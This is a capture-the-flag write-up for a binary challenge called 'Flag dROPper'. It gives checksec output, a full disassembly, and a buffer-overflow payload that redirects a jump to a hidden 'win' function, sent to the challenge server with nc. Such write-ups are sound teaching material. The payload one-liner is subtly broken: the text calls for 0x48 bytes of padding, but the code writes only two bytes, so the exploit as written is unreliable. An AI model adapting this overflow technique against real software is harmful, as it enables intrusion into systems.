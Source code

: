 # Flag dROPper

The challenge provided an ELF executable that prints some text and waits for user input.

```
$ ./flagDropper
Welcome to the Flag Dropper!
Make sure to catch the flag when its dropped!
1,
2,
3,
CATCH
f
```

The ```checksec``` command in ```gef``` yelds a simple binary without relevant security measures
```
Canary                        : ✘
NX                            : ✘
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Partial
```

Disassembling the binary yelds a function with several syscalls and a ```JMP```.
```
$ objdump -M intel -d flagDropper

0000000000400540 <main>:
  400540:       55                      push   rbp
  400541:       48 89 e5                mov    rbp,rsp
  400544:       b8 01 00 00 00          mov    eax,0x1
  400549:       bf 01 00 00 00          mov    edi,0x1
  40054e:       48 be 38 10 60 00 00    movabs rsi,0x601038
  400555:       00 00 00
  400558:       ba 4b 00 00 00          mov    edx,0x4b
  40055d:       0f 05                   syscall
  40055f:       b8 01 00 00 00          mov    eax,0x1
  400564:       bf 01 00 00 00          mov    edi,0x1
  400569:       48 be 84 10 60 00 00    movabs rsi,0x601084
  400570:       00 00 00
  400573:       ba 11 00 00 00          mov    edx,0x11
  400578:       0f 05                   syscall
  40057a:       48 8d 04 25 a4 10 60    lea    rax,ds:0x6010a4
  400581:       00
  400582:       48 83 c0 48             add    rax,0x48
  400586:       c7 00 d0 05 40 00       mov    DWORD PTR [rax],0x4005d0
  40058c:       b8 00 00 00 00          mov    eax,0x0
  400591:       bf 00 00 00 00          mov    edi,0x0
  400596:       48 be a4 10 60 00 00    movabs rsi,0x6010a4
  40059d:       00 00 00
  4005a0:       ba c8 00 00 00          mov    edx,0xc8
  4005a5:       0f 05                   syscall
  4005a7:       b8 01 00 00 00          mov    eax,0x1
  4005ac:       bf 01 00 00 00          mov    edi,0x1
  4005b1:       48 be a4 10 60 00 00    movabs rsi,0x6010a4
  4005b8:       00 00 00
  4005bb:       ba 40 00 00 00          mov    edx,0x40
  4005c0:       0f 05                   syscall
  4005c2:       48 8d 04 25 a4 10 60    lea    rax,ds:0x6010a4
  4005c9:       00
  4005ca:       48 83 c0 48             add    rax,0x48
  4005ce:       ff 20                   jmp    QWORD PTR [rax]

00000000004005d0 <_exit>:
  4005d0:       b8 3c 00 00 00          mov    eax,0x3c
  4005d5:       48 31 ff                xor    rdi,rdi
  4005d8:       0f 05                   syscall

00000000004005da <win>:
  4005da:       b8 00 00 00 00          mov    eax,0x0
  4005df:       48 8d 34 25 9d 10 60    lea    rsi,ds:0x60109d
  4005e6:       00
  4005e7:       48 8d 3c 25 94 10 60    lea    rdi,ds:0x601094
  4005ee:       00
  4005ef:       e8 4c fe ff ff          call   400440 <fopen@plt>
  4005f4:       48 89 c2                mov    rdx,rax
  4005f7:       b8 00 00 00 00          mov    eax,0x0
  4005fc:       48 bf 24 11 60 00 00    movabs rdi,0x601124
  400603:       00 00 00
  400606:       be 16 00 00 00          mov    esi,0x16
  40060b:       e8 20 fe ff ff          call   400430 <fgets@plt>
  400610:       bf 01 00 00 00          mov    edi,0x1
  400615:       b8 01 00 00 00          mov    eax,0x1
  40061a:       ba 16 00 00 00          mov    edx,0x16
  40061f:       0f 05                   syscall
  400621:       eb ad                   jmp    4005d0 <_exit>
  400623:       66 2e 0f 1f 84 00 00    nop    WORD PTR cs:[rax+rax*1+0x0]
  40062a:       00 00 00
  40062d:       0f 1f 00                nop    DWORD PTR [rax]
```

The ```JMP``` at address ```0x4005ce``` uses the data at the end of the buffer, after byte ```0x48```.
This buffer seems to hold the result of the text provided by the user.
After the ```JMP``` the program exits. Interestingly, there is a label ```win``` after the exit, whichs opens
a file, gets the result, prints the result using a ```syscall``` and then exits. Seems like we have a winner!

Further inspection with ```gdb``` shows that the memory used for the buffer is full of ```0x00``` and ends with ``` 0x4005d0```.
Therefore, without an overflow, the code will jump to the exist section and will terminate the program.

A valid attack would be to provide a payload with ```0x48``` bytes of padding and then ```0x4005da```. 
This would make the code jump to the ```win``` method.

To generate the payload:
```
python3 -c "with open('payload', 'wb') as f: f.write(b'\xaa'+b'\xda')"
```
We only need to write ```0xda``` as the result of the address has the same prefix (```0x4005```)


Then send the payload to the server:
```
nc dropper.sdc.tf 1337 < payload
```

which would provide the flag.

